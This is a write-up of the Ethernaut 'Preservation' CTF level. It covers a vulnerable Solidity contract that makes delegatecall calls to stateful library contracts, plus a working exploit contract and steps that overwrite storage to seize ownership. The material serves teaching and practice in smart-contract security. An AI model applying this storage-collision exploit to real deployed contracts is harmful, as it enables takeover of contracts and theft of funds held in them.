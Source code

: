# Preservation
_difficulty 8/10_

This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.  

The goal of this level is for you to claim ownership of the instance  you are given.  

Things that might help  
- Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
- Understanding what it means for delegatecall to be context-preserving.
- Understanding how storage variables are stored and accessed.
- Understanding how casting works between different data types.

## Sources
```javascript
pragma solidity ^0.4.23;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```

## Level author
Adrian Manning  
age@agemanning.com  
https://github.com/AgeManning  

## Solution

Solidity libraries can modify invoking contracts code if called with `delegatecall` if they are defined as contracts and not as libraries.

1. Using Remix, deploy the `PreservationHack.sol` that will be injected into timeZone1Library storage space.

PreservationHack.sol
```javascript
pragma solidity ^0.4.23;

contract PreservationHack {
  // copy original contract data layout
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner;
  
  function hack(address _preservation) public {
      Preservation preservation = Preservation(_preservation);
      // copy address of this library to the storage space 0
      preservation.setFirstTime(uint256(address(this)));
      // set "owner" variable at storage space 2
      preservation.setFirstTime(1);
  }

  function setTime(uint _hackData) public {
    _hackData;
    // this line will set us as the owner of the invoking contract
    // solium-disable-next-line security/no-tx-origin
    owner = tx.origin;
  }
}
```

2. Invoke `hack` method of the `PreservationHack` contract. This contract will inject it's address in the storage space 0, and then invoke `setTime` method on itself. This will set `owner` variable to `player` address.

3. Check if player is the owner of the contract.  
`player === (await contract.owner())`  
true  

4. Submit instance 🎉 

## Lesson

As the previous level, `delegate` mentions, the use of `delegatecall` to call libraries can be risky. This is particularly true for contract "libraries" that have their own state. This example demonstrates why the `library` keyword should be used for building libraries, as it prevents the libraries from storing and accessing state variables.  
